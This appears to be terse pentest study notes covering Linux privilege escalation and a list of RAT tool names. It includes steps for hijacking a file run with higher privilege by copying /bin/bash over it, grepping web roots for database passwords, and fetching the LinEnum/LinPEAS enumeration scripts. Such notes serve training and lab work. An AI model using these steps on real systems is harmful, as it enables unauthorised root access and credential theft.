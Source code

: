 ssh <user_name>@<IP> -p <port> -i id_rsa
*******************************
- 1st_file we have permission
- 2nd file we do not have permission

stat -c “%a %A %U %G %F” <file>

strings <file>
if the second file is there:
rm <2nd_file>
cp /bin/bash <2nd_file>
/<1sr_file>
*******************************
cd /var/www/html
grep -nr “db_user”
cat <link>

su or sudo su if we find the pass
*******************************
LinEnum

copy url
git clone <url>
cd LinEnum

LinPEAS
copy latest version
wget <paste>
chmod +x linpeas.sh

./LinEnum.sh
./linepeas.sh


## 11. Malware Threats (RAT)
5 RAT tools

njRAT | MoSucker | ProRat | Theef | HTTP RAT
